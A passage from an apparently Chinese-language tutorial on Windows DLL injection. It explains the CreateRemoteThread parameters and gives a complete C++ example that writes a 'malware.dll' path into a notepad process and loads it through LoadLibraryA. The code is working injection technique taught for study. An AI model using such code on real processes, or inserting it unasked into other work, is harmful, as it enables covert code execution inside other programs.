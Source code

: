 `CreateRemoteThread`函数：

```c
HANDLE CreateRemoteThread(
  HANDLE                 hProcess,           // 目标进程句柄
  LPSECURITY_ATTRIBUTES  lpThreadAttributes, // 安全属性（通常为NULL）
  SIZE_T                 dwStackSize,        // 栈大小（0表示默认）
  LPTHREAD_START_ROUTINE lpStartAddress,     // 线程函数地址（关键参数）
  LPVOID                 lpParameter,        // 传递给线程函数的参数
  DWORD                  dwCreationFlags,    // 创建标志（如0表示立即执行）
  LPDWORD                lpThreadId          // 线程ID（可设为NULL）
);
```

三个重要参数：

1. `OpenProcess`函数获得的进程句柄(hProcess)

2. 注入线程的入口点(lpStartAddress)

   通常设置为`LoadLibrary`函数的地址

3. 线程的参数(lpParameter)

   使用恶意DLL名字作为参数

由于进程之间的内存隔离，必须要先通过`WriteProcessMemory`将DLL的路径字符串写入目标进程空间，再供`LoadLibraryA`调用。

接下来看具体的例子（省略掉枚举进程）：

```c++
#include <windows.h>

int main() {
    // 目标进程ID，假设这里打开一个记事本notepad.exe的进程ID为46392
    DWORD pid = 46392; 

    // 1. 获取目标进程句柄
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    
    // 2. 在目标进程中分配内存
    LPVOID pRemoteMem = VirtualAllocEx(hProcess, NULL, MAX_PATH, MEM_COMMIT, PAGE_READWRITE);
    
    // 3. 写入DLL路径到目标进程内存
    char dllPath[] = "E:\\malware.dll";
    WriteProcessMemory(hProcess, pRemoteMem, dllPath, sizeof(dllPath), NULL);
    
    // 4. 创建远程线程调用LoadLibraryA加载DLL
    HANDLE hThread = CreateRemoteThread(
        hProcess, 
        NULL, 
        0, 
        (LPTHREAD_START_ROUTINE)LoadLibraryA, 
        pRemoteMem, 
        0, 
        NULL
    );
    
    // 清理句柄
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return 0;
}
```
